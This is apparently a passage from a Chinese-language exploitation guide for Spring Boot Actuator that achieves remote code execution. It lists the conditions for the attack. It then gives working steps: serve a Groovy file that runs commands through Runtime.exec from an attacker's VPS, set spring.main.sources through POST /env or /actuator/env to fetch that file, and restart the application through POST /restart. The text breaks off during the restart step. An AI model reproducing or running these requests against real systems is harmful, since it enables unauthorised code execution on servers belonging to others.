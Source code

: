 ##### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
- ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出



##### 利用方法

**步骤一：托管 groovy 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `groovy` 结尾的  `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```xml
Runtime.getRuntime().exec("执行代码")
```



**步骤二：设置 spring.main.sources 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://your-vps-ip/example.groovy
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.main.sources","value":"http://your-vps-ip/example.groovy"}
```



**步骤三：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```
